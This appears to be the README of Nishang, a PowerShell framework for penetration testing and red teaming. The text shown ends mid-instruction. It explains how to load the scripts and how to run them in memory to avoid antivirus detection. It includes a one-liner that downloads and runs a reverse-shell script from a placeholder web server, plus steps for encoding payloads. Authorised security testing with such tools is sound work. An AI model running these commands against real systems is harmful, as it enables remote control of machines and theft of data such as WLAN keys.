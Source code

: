 #Nishang

###Nishang is a framework and collection of scripts and payloads which enables usage of PowerShell for offensive security, penetration testing and red teaming. Nishang is useful during all phases of penetration testing.
By [nikhil_mitt](https://twitter.com/nikhil_mitt)

####Usage

Import all the scripts in the current PowerShell session (PowerShell v3 onwards).

PS C:\nishang> Import-Module .\nishang.psm1

Use the individual scripts with dot sourcing.

PS C:\nishang> . C:\nishang\Gather\Get-Information.ps1

PS C:\nishang> Get-Information

To get help about any script or function, use:

PS C:\nishang> Get-Help [scriptname] -full

Note that the help is available for the function loaded after running the script and not the script itself since version 0.3.8. In all cases, the function name is same as the script name.

For example, to see the help about Get-WLAN-Keys.ps1, use

PS C:\nishang> . C:\nishang\Get-WLAN-Keys.ps1

PS C:\nishang> Get-Help Get-WLAN-Keys -Full

####Anti Virus
Nishang scripts are flagged by many Anti Viruses as malicious. The scrripts on a target are meant to be used in memory which is very easy to do with PowerShell. Two basic methods to execute PowerShell scripts in memory:

Method 1. Use the in-memory dowload and execute:
Use below command to execute a PowerShell script from a remote shell, meterpreter native shell, a web shell etc. and the function exported by it. All the scripts in Nishang export a function with same name in the current PowerShell session.

powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]

Method 2. Use the -encodedcommand (or -e) parameter of PowerShell
All the scripts in Nishang export a function with same name in the current PowerShell session. Therefore, make sure the function call is made in the script itself while using encodedcommand parameter from a non-PowerShell shell. For above example, add a function call (without quotes) "Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]".

Encode the scrript using Invoke-Encode from Nishang:
PS C:\nishang> . \nishang\Utility\Invoke-Encode
PS C:\nishang> Invoke-Encode -DataToEncode C:\nishang\Shells\Invoke-PowerShellTcp.ps1 -OutCommand
Encoded data written to .\encoded.txt
Encoded command written to .\encodedcommand.txt

From above, use the encoded script from encodedcommand.txt and run it on a target where commands could be executed (a remote shell, meterpreter native shell, a web shell etc.). Use it like below:
